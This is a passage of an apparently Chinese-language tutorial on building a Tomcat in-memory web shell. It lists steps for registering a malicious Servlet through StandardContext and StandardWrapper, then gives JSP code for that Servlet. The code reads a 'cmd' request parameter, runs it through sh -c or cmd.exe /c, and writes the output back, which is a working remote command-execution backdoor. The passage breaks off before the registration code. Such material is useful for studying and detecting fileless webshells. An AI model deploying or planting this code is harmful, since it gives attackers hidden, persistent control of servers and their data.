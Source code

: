 1. 获取`StandardContext`对象
2. 编写恶意Servlet
3. 通过`StandardContext.createWrapper()`创建`StandardWrapper`对象
4. 设置`StandardWrapper`对象的`loadOnStartup`属性值
5. 设置`StandardWrapper`对象的`ServletName`属性值
6. 设置`StandardWrapper`对象的`ServletClass`属性值
7. 将`StandardWrapper`对象添加进`StandardContext`对象的`children`属性中
8. 通过`StandardContext.addServletMappingDecoded()`添加对应的路径映射

## 构造内存马

主要步骤如下:

- 创建恶意Servlet
- 用Wrapper对其进行封装
- 添加封装后的恶意Wrapper到StandardContext的children当中
- 添加ServletMapping将访问的URL和Servlet进行绑定

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.PrintWriter" %>
<%!
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
```